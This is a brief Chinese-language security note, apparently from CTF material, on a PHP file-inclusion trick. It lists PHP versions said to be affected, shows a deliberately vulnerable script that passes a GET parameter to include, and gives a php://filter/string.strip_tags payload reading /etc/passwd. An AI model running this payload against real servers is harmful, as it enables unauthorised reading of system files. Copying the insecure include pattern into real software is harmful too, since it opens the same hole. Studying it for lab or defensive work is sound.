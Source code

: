适用版本：

> * php7.0.0-7.1.2可以利用， 7.1.2x版本的已被修复 
>
> * php7.1.3-7.2.1可以利用， 7.2.1x版本的已被修复 
>
> * php7.2.2-7.2.8可以利用， 7.2.9一直到7.3到现在的版本已被修复

适用函数：

> include、require ............

```php
<?php
show_source(__FILE__);
if(isset($_GET["file"])){
    $file = $_GET["file"];
    if(preg_match("/flag/",$file)){
        die("no flag !!!");
    }
    include $file;
}
```



payload：

```
include.php?file=php://filter/string.strip_tags/resource=/etc/passwd
```

成功：

`php7.0.3.3`：

![image-20210927105733989](files/img/image-20210927105733989.png)
